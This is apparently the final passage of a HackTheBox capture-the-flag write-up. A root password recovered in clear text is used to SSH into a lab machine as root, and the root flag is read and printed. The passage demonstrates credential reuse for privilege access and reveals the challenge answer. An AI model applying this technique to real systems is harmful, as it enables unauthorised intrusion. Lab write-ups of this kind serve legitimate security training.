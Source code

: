 ![](Pasted%20image%2020220415132938.png)

The root password for the SSH login is visible in clear text.

User:pass `root:NotACrackablePassword4U2022`

Let's connect.

```console
┌──(kali㉿kali)-[~]
└─$ ssh root@10.129.28.168       
The authenticity of host '10.129.28.168 (10.129.28.168)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.28.168' (ED25519) to the list of known hosts.
root@10.129.28.168's password:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

root@unified:~# ls
root.txt
root@unified:~# cat root.txt
e50bc93c75b634e4b272d2f771c33681
```

We got root!

**Flag:** `e50bc93c75b634e4b272d2f771c33681`

---
**Tags:** [[HackTheBox]]